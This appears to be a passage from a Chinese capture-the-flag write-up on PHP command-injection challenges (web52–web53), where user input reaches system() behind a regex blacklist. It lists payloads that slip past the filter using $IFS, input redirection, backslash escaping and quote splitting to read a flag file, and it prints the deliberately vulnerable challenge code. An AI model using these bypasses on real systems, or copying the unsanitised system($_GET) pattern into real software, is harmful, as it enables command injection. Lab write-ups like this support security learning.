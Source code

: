 ```
    }
}else{
    highlight_file(__FILE__);
}
```

这次<被过滤了。

        cat${IFS}flag.txt
        cat$IFS$9flag.txt
        cat<flag.txt
        cat<>flag.txt
        ca\t fl\ag
        kg=$ '\x20flag.txt' &&cat$kg
        (\x20 转换成字符串就是空格，这里通过变量的方式巧妙绕过)
来来来，百科全书，上

payload：?c=nl$IFS/fl%27%27ag||

为什么不要php，没搞懂。



### web53

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
